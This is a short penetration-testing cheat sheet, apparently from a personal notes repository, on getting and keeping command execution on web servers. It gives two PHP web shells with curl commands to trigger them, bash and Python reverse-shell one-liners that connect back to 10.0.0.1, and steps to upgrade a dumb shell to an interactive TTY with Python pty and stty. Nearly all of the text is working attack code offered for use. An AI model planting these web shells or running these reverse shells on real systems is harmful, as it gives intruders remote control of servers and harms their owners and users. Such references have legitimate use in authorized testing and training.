

# simple shell using get
    <?php system($_REQUEST['c']); ?>
then 
    `curl http://example.com?c=whoami`

# simple shell using http header
    <?php passthru(getenv('HTTP_ACCEPT_LANGUAGE')); ?>
then `curl http://example.com -H "Accept-Language: command"`

Make sure commands are URL encoded

# Reverse shell commands
These commands can be passed as the payload once you ahve a webshell to create a more persistent shell. Make sure to create a corresponding listening service using netcat to catch the shell.

Syntax Note: bash -c '{{ shell command }}'

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Bash
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
## Python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Upgrade your shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

## Use Python to spawn a psuedo-terminal
use Python to spawn a pty. The pty module let’s you spawn a psuedo-terminal that can fool commands like su into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command:

    python -c 'import pty; pty.spawn("/bin/bash")'

## Upgrading netcat shell using stty
1. First, follow the same technique as in Method 1 and use Python to spawn a PTY. Once bash is running in the PTY, background the shell with `Ctrl-Z`
2. While the shell is in the background, now examine the current terminal and STTY info so we can force the connected shell to match it \

The information needed is the TERM type `(“xterm-256color”)` and the size of the current TTY `(“rows 38; columns 116”)`
3. With the shell still backgrounded, now set the current STTY to type raw and tell it to echo the input characters with the following command: \
`stty raw -echo`
4. Next foreground the shell with `fg`. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with `reset`.
5. After the reset the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)
```
export SHELL=bash
export TERM={{ term setting from step 2}}
stty rows {{ rows }} columns {{ columns }}
```